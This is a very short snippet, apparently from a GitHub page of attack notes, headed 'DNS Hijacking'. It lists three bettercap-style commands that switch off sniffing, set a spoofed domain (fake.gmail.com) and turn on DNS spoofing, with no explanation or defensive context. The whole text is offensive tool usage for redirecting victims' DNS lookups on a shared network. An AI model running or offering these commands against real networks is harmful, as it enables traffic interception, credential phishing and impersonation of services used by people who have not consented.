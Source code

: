 # DNS Hijacking

```
net.sniff off
```

```
set dns.spoof.domains fake.gmail.com
```

```
dns.spoof on
```